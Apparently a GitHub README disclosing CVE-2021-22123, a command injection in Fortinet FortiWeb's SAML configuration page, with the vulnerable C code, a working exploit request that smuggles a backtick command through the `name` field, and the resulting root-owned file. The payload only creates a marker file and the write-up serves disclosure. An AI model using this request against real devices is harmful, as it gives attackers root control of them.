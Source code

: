 <b>[CVE-2021-22123] Fortinet FortiWeb Authenticated OS Command Injection</b>
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
![Hit Counter](https://shields-io-visitor-counter.herokuapp.com/badge?page=murataydemir.CVE-2021-22123&style=plastic&color=critical)
![Platform Badge](https://img.shields.io/badge/Platform-Fortinet%20FortiWeb%20WAF-critical?logo=fortinet&style=plastic)

The command injection vulnerability in the FortiWeb management interface may allow an authenticated remote attacker to execute arbitrary commands in the system via the SAML server configuration page. Executing commands with maximum privileges will result in the attacker gaining full control over the server. This is an instance of [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html) and has a CVSSv3 base score of 8.7. This vulnerability has `CVE-2021-22123` number, which was addressed in [Fortiguard Lab page (FG-IR-20-120)](https://www.fortiguard.com/psirt/FG-IR-20-120)

Basically, SAML stands for Security Assertion Markup Language and it is an XML-based open-standard for transferring identity data between two parties: an identity provider (IdP) and a service provider (SP). It designed to ensure the operation of a Single Sign-On mechanism, which allows you to access various software products using a single identifier.

FortiWeb `all versions prior to 6.3.7` and below are vulnerable to authenticated OS Command Injection vulnerability. Successfully exploitation of this vulnerability may lead to take complete control of the affected device, with the highest possible privileges. They might install a persistent shell, crypto mining software, or other malicious software. In the unlikely event the management interface is exposed to the internet, they could use the compromised platform to reach into the affected network beyond the DMZ.

An attacker, who is first authenticated to the management interface of the FortiWeb device, can smuggle commands using backticks in the `name` field of the SAML Server configuration page. These commands are then executed as the root user of the underlying operating system. Vulnerable part of the code is illustrated as below.

```C
int move_metafile(char * path, char * name) {
    int iVar1;
    char buf[512];
    int nret;
    snprintf(buf, 0x200, "%s/%s", "/data/etc/saml/shibboleth/service_providers", name);
    iVar1 = access(buf, 0);
    if (iVar1 != 0) {
        snprintf(buf, 0x200, "mkdir %s/%s", "/data/etc/saml/shibboleth/service_providers", name);
        iVar1 = system(buf);
        if (iVar1 != 0) {
            return iVar1;
        }
    }
    snprintf(buf, 0x200, "cp %s %s/%s/%s.%s", path, "/data/etc/saml/shibboleth/service_providers", name,
        "Metadata", & DAT_00212758);
    iVar1 = system(buf);
    return iVar1;
}
```

<b>Proof of Concept (PoC):</b> The following POST request can be used in order to exploit this vulnerability.

```
POST /api/v2.0/user/remoteserver.saml HTTP/1.1
Host: vulnerablehost
Cookie: redacted
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.5; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://vulnerablehost/root/user/remote-user/saml-user/
X-Csrftoken: 814940160
Content-Type: multipart/form-data; boundary=---------------------------94351131111899571381631694412
Content-Length: 3068
Origin: https://vulnerablehost
Dnt: 1
Te: trailers
Connection: close
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="q_type"
1
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="name"
`touch /tmp/CVE-2021-22123`
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="entityID"
test
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="service-path"
/saml.sso
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="session-lifetime"
8
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="session-timeout"
30
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="sso-bind"
post
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="sso-bind_val"
1
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="sso-path"
/SAML2/POST
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="slo-bind"
post
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="slo-bind_val"
1
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="slo-path"
/SLO/POST
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="flag"
0
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="enforce-signing"
disable
-----------------------------94351131111899571381631694412
Content-Disposition: form-data; name="enforce-signing_val"
0
-----------------------------94351131111899571381631694412
```

```
HTTP/1.1 500 Internal Server Error
Date: Thu, 18 Aug 2021 15:47:45 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Set-Cookie: redacted
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
Content-Length: 20
Strict-Transport-Security: max-age=63072000
Connection: close
Content-Type: application/json

{"errcode": "-651"}
```
Finally, the results of the 'touch' command can be seen on the local command line of the FortiWeb device

```
/# ls -l /tmp/CVE-2021-22123
-rw-r--r--    1 root     0                0 Aug 10 15:48 /tmp/CVE-2021-22123
```

<b>References:</b>

* [https://www.rapid7.com/blog/post/2021/08/17/fortinet-fortiweb-os-command-injection/](https://www.rapid7.com/blog/post/2021/08/17/fortinet-fortiweb-os-command-injection/)
* [https://www.ptsecurity.com/ww-en/about/news/positive-technologies-discovers-vulnerability-in-fortinet-firewall/](https://www.ptsecurity.com/ww-en/about/news/positive-technologies-discovers-vulnerability-in-fortinet-firewall/)
* [https://www.fortiguard.com/psirt/FG-IR-20-120](https://www.fortiguard.com/psirt/FG-IR-20-120)
